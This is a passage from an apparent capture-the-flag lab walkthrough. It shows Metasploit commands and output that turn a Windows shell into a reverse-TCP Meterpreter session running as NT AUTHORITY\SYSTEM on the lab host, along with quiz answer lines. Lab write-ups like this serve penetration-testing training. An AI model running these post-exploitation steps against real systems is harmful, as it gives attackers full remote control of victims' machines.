 `SESSION`

3. Set the required option, you may need to list all of the sessions to find your target here.

```
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

`No answer needed`

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

```
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.106.222:4433
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.166.97
[*] Meterpreter session 2 opened (10.8.106.222:4433 -> 10.10.166.97:49303) at 2020-09-14 17:41:50 -0400
[*] Stopping exploit/multi/handler
```

`No answer needed`

5. Once the meterpreter shell conversion completes, select that session for use.

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.8.106.222:4444 -> 10.10.166.97:49253 (10.10.166.97)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.8.106.222:4433 -> 10.10.166.97:49303 (10.10.166.97)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

`No answer needed`

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
